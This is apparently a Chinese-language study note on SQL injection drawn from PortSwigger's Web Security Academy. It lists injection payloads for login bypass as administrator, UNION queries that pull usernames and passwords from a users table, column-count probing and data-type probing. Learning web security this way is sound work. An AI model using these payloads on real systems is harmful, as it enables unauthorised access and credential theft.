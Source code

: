 # SQL injection入门

这是[PortSwigger/Web Security Academy/SQL injection](https://portswigger.net/web-security/sql-injection)的学习笔记。

非常基础的东西，可以用来了解SQL注入的常规用法。

不同的数据库有不同的语法，本文不做深入，需要的同学可以参考[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 获取隐藏数据

注释掉后面的条件

SELECT * FROM products WHERE category = 'Gifts`'--`' AND released = 1

查询出所有的products

SELECT * FROM products WHERE category = 'Gifts`' OR 1=1--`' AND released = 1

## 改变程序逻辑

无密码登录

SELECT * FROM users WHERE username = 'administrator`'--`' AND password = ''

## 获取另一个表中的数据

列出所有的用户名和密码

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT username, password FROM users--`'

UNION攻击需要满足两个条件：
1. 列数与原来的查询相同
2. 数据类型与原来的查询兼容

### 判断列数的方法

使用ORDER BY N排序，当N超出列数时报错

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 1--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 2--`'

SELECT name, description FROM products WHERE category = 'Gifts`' ORDER BY 3--`'

使用UNION SELECT NULL，当NULL的个数与列数一致时不报错

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL--`'

SELECT name, description FROM products WHERE category = 'Gifts`' UNION SELECT NULL,NULL--`'

### 测试列的数据类型

得到列的数量后，就需要测试列的数据类型，原理是类型不匹配时会报错

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT 'a',NULL--`'

SELECT id, name FROM products WHERE category = 'Gifts`' UNION SELECT NULL,'a'--`'

### 在一列中获取多个数据

有时候需要获取多个数据但是只有一个展示列，这时就需要合并数据

SELECT name FROM products WHERE category = 'Gifts`' UNION SELECT username || '~' || password FROM users--`'

